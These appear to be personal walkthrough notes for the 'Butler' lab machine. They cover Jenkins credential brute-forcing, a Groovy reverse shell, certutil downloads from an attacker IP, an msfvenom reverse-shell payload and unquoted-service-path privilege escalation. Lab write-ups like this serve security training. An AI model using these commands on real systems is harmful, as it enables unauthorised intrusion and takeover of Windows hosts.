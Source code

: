butler walkthrough
========================

1. nmap shows samba (?), webserver on 8080 and unknown port 5040, also 7060 pando pub?? 
2. port 8080 is a jenkins server, cant really find version... looking at exploits we can see RCEs but we have to be authenticated
3. go to burp and make an intruder attack of type cluster bomb (tries all combinations of user/password as opposed to pitchfork). since cluster bomb is so dense we should try easy password combinations first (admin, jenkins, user...) (password, jenkins, Password...)
4. running these we see a slight length increase in jenkins/jenkins and forward... really subtle change of cookies, perhaps this is an indicator of successful login. trying it, it works!
5. in jenkins you can access a cli, a script manager, etc. script is in groovy, there's a groovy reverse shell script
6. listen to a port in netcat, put the correct attacker ip and port in the script and run... now we have access to the machine as user `butler`
7. just as there's linpeas, there's winpeas, so we can download the exe of that and put it into the transfer folder, then start the server with python
8. `certutil -urlcache -f http://10.0.2.15/winpeas.exe winpeas.exe` to get the file, maybe we can put it in butler's home folder
9. run and find something: process `WiseBootAssistant` that runs `C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe` has "No quotes and Space detected". this means that windows will look for a file in every space terminator possible (`C:\Program.exe`, `C:\Program Files (x86)\Wise\Wise.exe`, etc)
10. craft reverse shell malware with msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.15 LPORT=7777 -f exe -o Wise.exe`. put it in the transfer folder and restart server
11. certutil it on the Wise folder as Wise.exe, don't run it yet because we will get a shell as butler, but we want a system shell!
12. also listen to the 7777 port with netcat
12. we need to stop and restart the service. since it's called `WiseBootAssistant`, do `sc stop WiseBootAssistant` and `sc start WiseBootAssistant`. starting the process will run the program as system, and we will have a system shell!
